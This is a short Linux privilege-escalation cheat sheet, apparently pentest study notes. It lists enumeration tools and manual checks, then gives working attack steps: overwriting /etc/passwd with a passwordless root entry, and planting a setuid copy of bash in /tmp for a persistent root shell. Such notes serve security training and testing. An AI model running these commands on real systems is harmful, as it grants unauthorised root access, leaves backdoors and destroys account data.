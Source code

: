 ## Enumeration

### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

```
linpeash.sh -a > output.txt
cat output.txt | less -R
```

### linux-smart-enumeration
https://github.com/diego-treitos/linux-smart-enumeration

```
./lse.sh -l (use this to increase verbosity level default 0)
```

### linux-exploit-suggester-2 
(use this to find kernel exploits)

https://github.com/jondonas/linux-exploit-suggester-2

### Manual checks

Lists all commands the user can use with sudo permissions

```
sudo -l
```

Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!

```
ps aux | grep root
ps -ef | grep root
```

Weak File Permissions
```
//if we can write this file we can add a new root user
ls -la /etc/shadow
ls -la /etc/passwd\

// exploit in this way
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


SUID/SGID Executables
An SUID is a file that allows a user to execute the file with the permissions of the file owner, an SGID is the same except with the group owner. If the owner is root, we can essentially run files with root permissions.

```
//find all SUID files

find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null find all SUID files

// find all SGID files
find / -perm -g=s -type f 2>/dev/null

```
Check for service running only locally 
```
netstat -antpx
```

ROOTBASH
we can use this tecnquie when we found a script running as root, we can modify in this way
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
Ensure that overwrite.sh is executable:
```
chmod +x /home/user/overwrite.sh
```
run and gain a root shell (-p to preserve UID)
```
/tmp/rootbash –p
```
